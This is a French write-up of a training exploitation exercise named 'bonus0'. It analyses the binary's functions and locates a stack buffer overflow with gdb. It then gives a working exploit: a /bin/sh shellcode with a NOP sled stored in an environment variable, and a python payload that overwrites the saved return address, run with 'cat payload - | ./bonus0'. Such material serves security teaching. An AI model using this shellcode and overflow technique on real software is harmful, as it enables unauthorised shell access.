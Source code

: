 # Bonus0

### **Déroulement du programme :** ###

###### main()

- La fonction `pp()` est appelée, elle prend en paramètre un buffer (disons `dest`)

###### pp()

- Deux buffers sont alloués sur la stack, et sont passés en paramètre à deux appels successifs à la fonction `p()`

###### p()

- Le caractère `-` est affiché

- `read` de 4096 sur l'entrée standard

- `strchr` du caractère **'\n'**

- On déréférence le retour de `strchr()` pour lui assigner un **'\0'**. Ainsi, si `strchr()` ne trouve pas de '\n', il renverra `NULL`, l'affectation échouera et le programme plantera.

- Un `strncpy()` de 20 caractères est fait du buffer de lecture vers le buffer passée en paramètre.

###### pp()

- `read_1` est copié dans `dest`

- Un espace est mis à la place du `'\0'` de `dest`

- `read_2` est concaténé à `dest`

###### main()

- `dest` est imprimé sur la sortie standard

### **Objectif :** ###

Aller surcharger la sauvegarde de l'**EIP** présente dans la **stackframe** du **main** pour rediriger vers un **shell code** stocké dans une **variable d'environnement**. Pour ce faire, on va chercher à faire un **buffer overflow** depuis `dest`.


### **Tests :** ###

```
./bonus0
 -
# read_1
AAAA 
 -
# read_2
BBBB

# dest (read_1 + read_2)
AAAA BBBB
```

Ici rien d'étonnant, `read_2` a bien été concaténé à `read_1` dont on a remplacé le `'\0'` final par un espace.

```
./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
```

On peut maintenant observer que les buffers de `read_1` et `read_2` sont à la suite sur la stack et ont une taille de 20 octets

```
# juste après le second appel à p
Breakpoint 1 at 0x804854c
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 1, 0x0804854c in pp () // 
(gdb) x/30xw $esp
0xbffff660:	0xbffff69c	0x080486a0	0x00000000	0xb7fd0ff4
0xbffff670:	0xbffff6be	0xbffff6bf	0x00000001	0xb7ec3c49
0xbffff680:	0xbffff6bf	0xbffff6be	0x41414141	0x41414141
0xbffff690:	0x41414141	0x41414141	0x41414141	0x42424242
0xbffff6a0:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff6b0:	0xb7fd0ff4	0x00000000	0xbffff708	0x080485b9
```

`strncpy` ne cherche pas à mettre de `\0` si le nombre de caractère de la chaîne source est supérieure ou égale à la taille de la chaîne destinataire

`strcpy` n'a aucun moyen de savoir que `read_1` et `read_2` étaient à l'origine deux chaînes distinctes et s'arrêtera uniquement au premier octet `null` rencontré

`dest` étant un buffer de 54 octets (60 quand on regarde avec GDB) il nous est maintenant possible de faire notre **buffer overflow**

En effet, `dest` correspond maintenant à (`read_1` + `read_2` + quelques octets randoms + un espace) + (`read2` + quelques octets randoms), c'est amplement suffisant.

suite au segfault et grâce à [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?), on trouve un offset de 9.

### **Solution :** ### 

On crée notre shell-code.
```
export SHELL_CODE=$(python -c 'print "\x90"*30+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

À l'aide de **gdb** on trouve l'adresse de notre **variable d'environnement** à laquelle on ajoute la taille de son nom.

```
x/20s *((char **) environ)
```


Dans un fichier on va mettre :

`read_1` : 4096 caractères (dont un **'\n'**)

`read_2` : l'offset de 9, l'adresse de la variable d'environnement et 7 caractères

```
python -c 'print("A"*4095 + "\n" + "B"*9 + "\x12\xff\xff\xbf" + "D"*7)' > payload
```

```
cat payload - | ./bonus0
```


